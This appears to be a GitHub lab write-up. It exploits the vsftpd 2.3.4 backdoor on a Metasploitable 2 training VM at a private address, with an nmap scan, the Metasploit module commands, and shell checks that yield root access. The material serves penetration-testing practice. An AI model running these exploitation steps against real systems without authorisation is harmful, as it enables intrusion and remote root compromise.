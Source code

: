 

## 🎯 Target Information
- **Target IP**: `192.168.56.101`
- **System**: Metasploitable 2
- **Vulnerable Service**: FTP (vsftpd 2.3.4)
- **Port**: 21/tcp

## 🔍 Scanning Results (Nmap)
nmap -sV -sC -O -oN scan.txt 192.168.56.101
![image](https://github.com/user-attachments/assets/62de0928-4d86-497c-9f76-3d1cadc55080)
```
I conducted the nmap scan on the given IP so I could know the given vulnerability present 
```
# Result:
![image](https://github.com/user-attachments/assets/9f995d14-400d-4f93-bd1c-167787794a72)
21/tcp open  ftp     vsftpd 2.3.4
```

You can see the result there is open port which is 21 and has vstfpd 2.3.4 as version which has exploitation 
```

##💣 Exploitation (Metasploit)
![image](https://github.com/user-attachments/assets/c787d4ae-13cf-4db1-85fb-4ae0b88b5677)
![image](https://github.com/user-attachments/assets/d9aa1f10-4700-4a71-8038-de4aed8aa8fd)
![image](https://github.com/user-attachments/assets/520ab200-1ae4-49fb-ac6e-7345660eede4)
![image](https://github.com/user-attachments/assets/81415b7d-1f72-4a0b-9fd7-06aac8e526d3)
```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
exploit

This above are the commands I ran without the use of payload so that I can access the  targets device because of its vulnerability.
```

🖥️ Shell Access
![image](https://github.com/user-attachments/assets/af1a541b-2898-44b4-9ab4-a809f4279509)

```
sessions -i 1
whoami
uname -a

This to know if we have the control over the device of targets IP
````

 Result
Successfully gained command shell as root
Confirmed RCE via the FTP backdoor.
